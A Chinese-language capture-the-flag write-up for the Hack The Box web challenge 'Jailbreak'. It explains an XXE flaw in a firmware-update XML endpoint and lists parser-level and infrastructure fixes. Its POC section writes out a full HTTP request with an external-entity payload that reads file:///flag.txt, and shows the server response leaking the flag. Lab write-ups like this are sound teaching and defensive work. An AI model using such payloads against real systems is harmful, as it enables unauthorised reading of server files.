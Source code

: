 ## 題目 - Jailbreak
- EVENT: [CTF Try Out](https://ctf.hackthebox.com/event/1434)
- 種類: web
- 難度: very easy

## 解題過程概述
觀察網站功能,注意到 `/rom` 路徑有 XML 相關資料  
開 burpsuite 發現 `/api/update` 使用 `Content-Type: application/xml` 傳資料  
於是嘗試 XXE 滲透測試


##  Initial Access - XXE (XML External Entity) 

### Vulnerability Explanation
**XXE (XML External Entity Injection)** 是一種針對 XML 解析器的攻擊手法。當應用程式處理 XML 輸入時,如果未正確配置解析器,攻擊者可以定義外部實體並引用本地或遠端資源。

**漏洞成因**:
- 後端 XML 解析器允許處理外部實體 (External Entities)
- 未禁用 DTD (Document Type Definition) 處理
- 沒有驗證或過濾使用者提供的 XML 內容

**攻擊原理**:
1. 在 XML 中定義 DTD,宣告外部實體
2. 外部實體使用 `SYSTEM` 關鍵字引用檔案系統路徑
3. 在 XML 內容中引用該實體
4. 伺服器解析 XML 時會讀取檔案內容並嵌入回應中

### Vulnerability Fix

**應用層面**:
1. **禁用外部實體處理**
   ```python
   # Python (lxml 範例)
   from lxml import etree
   parser = etree.XMLParser(resolve_entities=False, no_network=True)
   ```

2. **禁用 DTD 處理**
   ```python
   # Python (xml.etree 範例)
   import xml.etree.ElementTree as ET
   ET.XMLParser(forbid_dtd=True)
   ```

3. **使用安全的 XML 解析庫**
   - 使用 `defusedxml` 等安全加固的解析庫
   - 更新到最新版本的 XML 處理套件

4. **輸入驗證與白名單**
   - 驗證 XML 結構是否符合預期 schema
   - 拒絕包含 DOCTYPE 或 ENTITY 宣告的請求

**基礎設施層面**:
- 實施最小權限原則,限制應用程式讀取檔案的權限
- 使用 WAF (Web Application Firewall) 偵測並阻擋 XXE 攻擊模式
- 監控異常的檔案讀取行為

### POC 

取得 `file:///flag.txt`
```bash
POST /api/update HTTP/1.1
Host: 94.237.122.36:54349
Content-Length: 1409
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://94.237.122.36:54349
Referer: http://94.237.122.36:54349/rom
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version>
...

```
成功取得 flag
```bash
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Thu, 30 Oct 2025 12:47:59 GMT
Content-Type: application/json
Content-Length: 130
Connection: close

{
  "message": "Firmware version HTB{b1...c} update initiated."
}

```


**Note**: 此 writeup 僅用於教育目的,請勿在未經授權的系統上進行測試。